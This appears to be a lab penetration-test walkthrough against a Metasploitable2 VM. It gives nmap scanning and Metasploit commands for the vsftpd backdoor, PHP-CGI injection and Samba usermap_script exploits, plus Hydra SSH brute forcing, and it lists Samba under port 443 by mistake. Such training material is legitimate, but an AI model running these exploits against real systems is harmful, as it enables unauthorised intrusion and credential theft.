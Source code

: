 # External Penetration Test Methodology

## Start With an Nmap Scan

### Exploit Vulnerabilities Found in the Scan

We know the IP address of this machine is `10.21.21.11`.

Now we are going to scan this IP address with the Nmap tool. To perform a comprehensive scan:

```bash
nmap -T4 -p- -A 10.21.21.11
```

**Explanation:**
- `-T4`: Sets the speed to a moderate-fast level.
- `-p-`: Ensures all ports are scanned.
- `-A`: Provides detailed information about the target, including OS, services, and versions.

![image](https://github.com/user-attachments/assets/4cee477c-c968-4b31-adc7-f3827b50c822)
![image](https://github.com/user-attachments/assets/55d36441-7359-4d39-90e3-b36a2ab0ef25)
![image](https://github.com/user-attachments/assets/22e75d96-ff40-4a1c-9850-ec6224e59f56)
![image](https://github.com/user-attachments/assets/171cfe96-40e0-41b2-acae-336c923a73e6)

We can see that there are a lot of open ports, so we are going to exploit them.

### 1. Port 21 (FTP) - Exploiting FTP through Metasploit Framework

As we know, the FTP version is `vsftpd`.

1. Open `msfconsole` and search for `vsftpd Backdoor exploit`.
2. Follow the steps given below to exploit through Metasploit Framework:

```bash
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOST <target IP address>
exploit
```

![vsftpd exploit](https://github.com/user-attachments/assets/5dd9d633-4a26-4785-8cbf-d708cc91d02e)

We got the shell.

### 2. Port 22 (SSH) - Brute Force with Hydra Tool

We can brute force the service and get the credentials by cracking the username and password.

```bash
hydra -L /path/to/username/list -P /path/to/password/list 10.21.21.11 ssh
```

![Hydra SSH brute force](https://github.com/user-attachments/assets/00ef07ce-4ae9-448b-8108-94f173365ff4)

### 3. Port 23 (Telnet) - Use Telnet Tool

Telnet grabbed the metasploitable2 system’s banner. We have a username and password, so use it to log in to the system:

```bash
telnet <target IP address>
```

![Telnet login](https://github.com/user-attachments/assets/b254d362-97e5-4a5a-9cea-f52a46f916e8)

### 4. Port 80 (PHP_CGI)

Through Nmap, we understood that this port provides an HTTP service. When we run `ip:80` as a URL in the browser and use Wappalyzer, we can see the technologies used. One of the technologies used is PHP 5.2.4, and from researching, we find that this version has an argument injection vulnerability.

**Reference:** [Rapid7 PHP CGI Argument Injection](https://www.rapid7.com/db/modules/exploit/multi/http/php_cgi_arg_injection/)

![PHP CGI vulnerability](https://github.com/user-attachments/assets/cb0cdfa3-c00c-4130-afa6-6bdacfaa5406)

![Wappalyzer PHP](https://github.com/user-attachments/assets/846b6a46-02c2-45d4-9d25-64bd5bbee921)

```bash
msfconsole
use exploit/multi/http/php_cgi_arg_injection
options
set RHOSTS <target IP>
exploit
```

![PHP CGI exploit](https://github.com/user-attachments/assets/7cec01c5-03a9-4f20-a46a-433fbd0fc83c)

### 5. Port 139 & 443 (Samba)

We will exploit this with the Metasploit Framework.

```bash
search usermap_script
use exploit/multi/samba/usermap_script
set RHOST <target IP>
exploit
```

![Samba exploit](https://github.com/user-attachments/assets/d5afa31e-f3e1-4a9a-9aff-ea7b7494819b)
